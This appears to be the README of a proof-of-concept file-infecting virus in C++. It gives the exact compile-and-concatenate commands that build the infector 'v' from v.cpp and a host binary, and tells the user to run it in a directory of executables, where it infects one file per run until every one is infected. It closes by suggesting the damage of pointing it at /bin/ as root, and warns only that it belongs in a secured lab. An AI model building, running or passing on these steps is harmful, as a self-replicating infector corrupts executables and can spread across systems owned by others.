 This is a DANGEROUS experiment: Use only in a secured lab setup.

#### Bootstrap procedure

````
g++ -O -Wall -std=c++11 hi.cpp -o hi
g++ -O -Wall -std=c++11 v.cpp -o v_tmp && cat v_tmp hi >v && chmod +x v
ls -l v_tmp
````

Make sure the size of `v_tmp` is `MYSIZE` in the `v.cpp` source. Do another

````
g++ -O -Wall -std=c++11 v.cpp -o v_tmp && cat v_tmp hi >v && chmod +x v
````

#### Start

Run the virus bootstrap executable in a directory that contains other executables:

````
./v
````

This will infect one executable per run, until all files are infected.

By default, only executables in the current directory are infected.

Imagine what will happen when the default wil be `/bin/`, runing as root or with sudo rights.
